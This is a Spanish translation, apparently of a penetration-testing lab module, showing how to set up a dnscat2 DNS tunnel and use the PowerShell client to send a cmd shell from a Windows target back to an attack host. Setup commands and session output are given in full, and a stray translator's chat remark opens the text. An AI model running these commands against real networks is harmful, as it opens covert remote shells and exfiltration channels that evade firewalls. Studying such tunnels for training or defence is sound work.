 He actualizado la memoria para no traducir los títulos en las traducciones. Aquí tienes la traducción ajustada:
[Dnscat2](https://github.com/iagox86/dnscat2) es una herramienta de túnel que utiliza el protocolo DNS para enviar datos entre dos hosts. Usa un canal de `Command-&-Control` (`C&C` o `C2`) cifrado y envía datos dentro de los registros TXT dentro del protocolo DNS. Generalmente, cada entorno de dominio de Active Directory en una red corporativa tendrá su propio servidor DNS, el cual resolverá nombres de host a direcciones IP y redirigirá el tráfico a servidores DNS externos que participan en el sistema general de DNS. Sin embargo, con dnscat2, la resolución de direcciones se solicita a un servidor externo. Cuando un servidor DNS local intenta resolver una dirección, los datos se exfiltran y se envían a través de la red en lugar de realizar una solicitud DNS legítima. Dnscat2 puede ser un enfoque extremadamente sigiloso para exfiltrar datos mientras se evade la detección de firewalls que inspeccionan las conexiones HTTPS y el tráfico. Para nuestro ejemplo de prueba, podemos usar el servidor dnscat2 en nuestro host de ataque y ejecutar el cliente dnscat2 en otro host Windows.

---

## Setting Up & Using dnscat2

Si dnscat2 no está configurado en nuestro host de ataque, podemos hacerlo utilizando los siguientes comandos:

### Cloning dnscat2 and Setting Up the Server

```r
git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

Luego, podemos iniciar el servidor dnscat2 ejecutando el archivo dnscat2.

### Starting the dnscat2 server

```r
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

Después de ejecutar el servidor, nos proporcionará la clave secreta, que tendremos que proporcionar a nuestro cliente dnscat2 en el host Windows para que pueda autenticarse y cifrar los datos que se envían a nuestro servidor dnscat2 externo. Podemos usar el cliente con el proyecto dnscat2 o utilizar [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), un cliente basado en PowerShell compatible con dnscat2 que podemos ejecutar desde objetivos Windows para establecer un túnel con nuestro servidor dnscat2. Podemos clonar el proyecto que contiene el archivo del cliente a nuestro host de ataque y luego transferirlo al objetivo.

### Cloning dnscat2-powershell to the Attack Host

```r
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Una vez que el archivo `dnscat2.ps1` esté en el objetivo, podemos importarlo y ejecutar los cmd-lets asociados.

### Importing dnscat2.ps1

```r
PS C:\htb> Import-Module .\dnscat2.ps1
```

Después de importar dnscat2.ps1, podemos usarlo para establecer un túnel con el servidor que se ejecuta en nuestro host de ataque. Podemos enviar de vuelta una sesión CMD a nuestro servidor.

```r
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

Debemos usar la clave precompartida (`-PreSharedSecret`) generada en el servidor para asegurarnos de que nuestra sesión se establezca y cifre. Si todos los pasos se completan con éxito, veremos que se establece una sesión con nuestro servidor.

### Confirming Session Establishment

```r
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

Podemos listar las opciones que tenemos con dnscat2 ingresando `?` en el prompt.

### Listing dnscat2 Options

```r
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

Podemos usar dnscat2 para interactuar con sesiones y avanzar en un entorno objetivo durante compromisos. No cubriremos todas las posibilidades con dnscat2 en este módulo, pero se recomienda encarecidamente practicar con él y tal vez incluso encontrar formas creativas de usarlo en un compromiso. Interactuemos con nuestra sesión establecida y pasemos a una shell.

### Interacting with the Established Session

```r
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```